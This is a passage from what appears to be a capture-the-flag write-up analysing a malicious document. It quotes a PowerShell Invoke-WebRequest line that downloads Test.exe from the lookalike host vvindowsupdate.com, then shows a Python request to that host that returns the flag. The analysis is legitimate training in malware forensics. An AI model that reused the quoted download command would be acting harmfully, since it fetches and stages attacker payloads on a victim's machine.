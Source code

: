 Automate the decryption and extraction and you'll get this powershell code in file `Space Pirate Code of Conduct.doc`

```powershell
Invoke-WebRequest 'http://vvindowsupdate.com:8080/update' -UseBasicParsing -Headers @{'heartbeat'='9885b80063bb7ba74f75b6f8aff291bc91cfa8eb77d942d433c9178aa9e99c6f'}  -OutFile 'Test.exe'
```

Let's make a request to this domain using the header value we got:

```python
import requests

url = "http://vvindowsupdate.com:8080/update"
headers = {
    "heartbeat": "9885b80063bb7ba74f75b6f8aff291bc91cfa8eb77d942d433c9178aa9e99c6f"
}

try:
    response = requests.get(url, headers=headers)
    print("Response Status Code:", response.status_code)
    print("Response Content:", response.text)
except requests.RequestException as e:
    print("Error:", e)
```
Open WireShark and check response headers:

![P15](/assets/images/CTF/b2.png)

The flag was returned in one of the headers.

# Macro madness: The Malware
